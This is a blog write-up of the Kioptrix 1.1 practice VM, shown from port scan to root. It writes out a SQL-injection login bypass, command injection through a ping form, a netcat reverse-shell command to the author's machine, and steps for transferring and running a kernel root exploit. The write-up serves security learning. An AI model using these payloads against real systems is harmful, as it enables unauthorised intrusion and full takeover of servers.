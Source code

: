 ```yaml
---
layout: post
title: "Kioptrix hacking challenge: Part 2"
date: 2012-07-06 18:10:26 -0400
comments: true
categories: boot2root
alias: /2012/07/kioptrix-hacking-challenge-part-2.html
---
```


The second Kioptrix challenge isn't quite as scan and exploit as the first, but still a relatively easy beginner challenge. The Kioptrix challenges can be downloaded from [http://www.kioptrix.com/blog/?page_id=135](http://www.kioptrix.com/blog/?page_id=135). It's actually labeled as Level 1.1. The author mentions that there are multiple ways to compromise the system. I've only explored one method, which is what I'll be describing here.

<!--more-->

Once Kioptrix 1.1 had loaded, I ran a netdiscover scan and found it's IP address on my LAN: 192.168.1.146. I followed up with a port scan:

```
# nmap -sV -A -T4 192.168.1.146
 
Starting Nmap 5.61TEST4 ( http://nmap.org ) at 2012-04-24 10:40 EDT
Nmap scan report for 192.168.1.146
Host is up (0.00047s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE              VERSION
22/tcp   open  ssh                  OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http                 Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind (rpcbind V2) 2 (rpc #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            651/udp  status
|_  100024  1            654/tcp  status
443/tcp  open  ssl/http             Apache httpd 2.0.52 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08 00:10:47
|_Not valid after:  2010-10-08 00:10:47
|_sslv2: server still supports SSLv2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
631/tcp  open  ipp                  CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
3306/tcp open  mysql                MySQL (unauthorized)
MAC Address: 00:0C:29:BF:D3:86 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

A website is available, and it looks like a MySQL database runs in the backend. nmap also found an open CUPS port. I decided to start with the webserver. Browsing over to http://192.168.1.146, I was greeted with a login form.

![](/images/2012-07-06/01.png)

I decided to see if I could bypass the authentication mechanism using a simple SQL injection attack. For the username I entered test, and for the password I entered x' or 'x'='x. I was going by the assumption that the backend SQL code looked something like

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='password'
```

By using x' or 'x'='x the query would be changed so that the results would always be true:

```sql
SELECT * FROM ACCOUNTS WHERE USERNAME='test' AND PASSWORD='x' OR 'x'='x'
```

I hit the Login button and was presented with a new form. The SQL injection worked and I was able to login as some authenticated user.

![](/images/2012-07-06/02.png)

It looked to be some sort of diagnostic tool that allowed an authenticated user to ping a machine. I punched in 127.0.0.1 and hit Submit to see what would happen. A new browser tab opened up that showed the ping results:

![](/images/2012-07-06/03.png)

I wondered if this form was susceptible to code injection. I assumed that the backend code for this form probably just made a system call to ping and passed it the IP address that I had entered in the form. If that was the case, I could chain my own commands at the end of the IP address and have them execute on the server. I started off with 127.0.0.1;id as a simple test:

![](/images/2012-07-06/04.png)

Sure enough, right at the end of the ping results, it showed me that the process had run as the apache user. If I could inject code that would run on the webserver, then I could make it give me a reverse shell so that I could have shell access to the server. Probing the system further, I used the whereis command and found netcat. It was time to try a reverse shell. On my terminal I started a netcat listener

```text
# nc -lvp 8080
```

On the webpage I entered the following into the form and hit Submit

```
127.0.0.1;/usr/local/bin/nc 192.168.1.172 8080 -e '/bin/bash'
```

Netcat on the server started up and connected to my netcat listener and gave me a reverse shell.

![](/images/2012-07-06/05.png)

Now that I had shell access to the system, exploring it would be much easier. Running uname gave me the kernel version, 2.6.9. Checking against exploit-db, I found several exploits against the 2.6.x kernel:

```
# /pentest/exploits/exploitdb/searchsploit kernel 2.6 linux local|sort -n
--------------------------------------------------------------------------- -------------------------
 Description                                                                 Path
Linux 2.6.30+/SELinux/RHEL5 Test Kernel Local Root Exploit 0day             /linux/local/9191.txt
Linux Kernel 2.4.1-2.4.37 and 2.6.1-2.6.32-rc5  Pipe.c Privelege Escalation /linux/local/9844.py
Linux Kernel 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) /linux/local/926.c
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [2]                 /linux/local/9598.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit [3]                 /linux/local/9641.txt
Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit (ppc)               /linux/local/9545.c
Linux Kernel 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver)        /linux/local/9479.c
Linux Kernel 2.4/2.6 x86-64 System Call Emulation Exploit                   /linux/local/4460.c
```

The ring0 root exploit seemed promising, so I decided to try that one first. Using netcat, I transferred the file from my machine to the target: On my machine:

```
nc -lvp 9998 < /pentest/exploits/exploitdb/linux/local/9479.c
```

On the target machine:

```
cd /tmp/
nc 192.168.1.172 9998 > 9479.c
```

With the ring0 exploit transferred, it was time to compile and run it:

```
gcc 9479.c
./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
```

Instant root shell and game over.
This challenge was a just a little bit more involved than the first Kioptrix level. Getting a foothold into the system required a bit of knowledge about SQL injection, and how Linux commands can be chained. If you can find a way to run commands on the server remotely, you're one step closer to rooting it.
